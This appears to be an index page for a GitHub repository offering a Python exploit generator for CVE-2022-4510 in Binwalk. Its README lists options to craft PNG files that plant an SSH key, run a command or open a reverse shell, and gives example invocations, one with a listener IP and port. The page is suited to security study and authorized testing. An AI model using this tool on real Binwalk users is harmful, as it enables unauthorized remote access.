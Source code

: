 # CVE-2022-4510

Binwalk

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/Imahian](https://github.com/Imahian) |
| Url      | [https://github.com/Imahian/CVE-2022-4510](https://github.com/Imahian/CVE-2022-4510)                                               |
| Stars    | 0                                                          |
| License  | Creative Commons Zero v1.0 Universal                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# CVE-2022-4510-Binwalk

This script allows you to generate exploits for targeting CVE-2022-4510 Binwalk vulnerabilities. The exploits can be used for testing and demonstrations. The supported options include SSH, command execution, and reverse shell.

## Prerequisites
- Python 3.x

## Usage
1. Clone the repository or download the script file.
2. Run the script with the desired options. The available options are:
   - `ssh`: Generate an exploit for SSH.
     - Arguments:
       - `file`: Path to the input .png file.
       - `pub`: Path to the public key file.
   - `command`: Generate an exploit for executing a command.
     - Arguments:
       - `--command`: Command to execute.
       - `file`: Path to the input .png file.
   - `reverse`: Generate an exploit for reverse shell.
     - Arguments:
       - `file`: Path to the input .png file.
       - `ip`: IP address of the listener.
       - `port`: Port number of the listener.

Example usages:
```
python exploit_generator.py ssh input.png public_key.pub
python exploit_generator.py command --command "ls -l" input.png
python exploit_generator.py reverse input.png 192.168.0.100 4444
```

## Output
The generated exploit will be saved as `binwalk_exploit.png` in the current directory.

## Disclaimer
Use this script responsibly and only on systems that you have permission to test or demonstrate vulnerabilities. The author is not responsible for any illegal or unauthorized use of this script.

## References
[https://github.com/electr0sm0g/CVE-2022-4510](https://github.com/electr0sm0g/CVE-2022-4510)



## Get the content

```
git clone https://github.com/Imahian/CVE-2022-4510
cd CVE-2022-4510
```

{% embed url="https://github.com/Imahian/CVE-2022-4510" %}

<figure><img src="https://avatars.githubusercontent.com/u/107862983?v=4" alt=""><figcaption><p>Imahian</p></figcaption></figure>
